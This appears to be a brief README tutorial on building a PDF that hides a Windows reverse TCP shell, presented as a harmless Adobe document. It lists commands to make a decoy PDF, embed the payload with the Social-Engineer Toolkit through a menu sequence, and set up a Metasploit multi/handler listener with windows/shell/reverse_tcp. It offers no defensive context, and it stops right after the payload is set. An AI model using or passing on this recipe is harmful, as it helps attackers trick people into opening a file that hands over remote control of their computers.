 # Reverse shell tcp exploit masked as adobe pdf


Create pdf 

`echo "Ur hacked lol" > hacked.txt`

install enscript `sudo apt install enscript`

Now turn txt into pdf
`enscript hacked.txt -o - | ps2pdf - hacked.pdf`

Start social engineering toolkit

`sudo setoolkit`

1, 1, 2, 13, 1

Select our pdf `/media/sf_Shared_Folder/hacked.pdf`

Set up according to your wishes

`sudo -i`

`cd root/.set/`

You can change where the pdf is set but for now we will just move it `mv hacked.pdf /home/kali`

Set up listener 

`msfconsole`

`use exploit/multi/handler`

`set payload windows/shell/reverse_tcp`



References:

https://www.youtube.com/watch?v=Zj_7Wunnu2w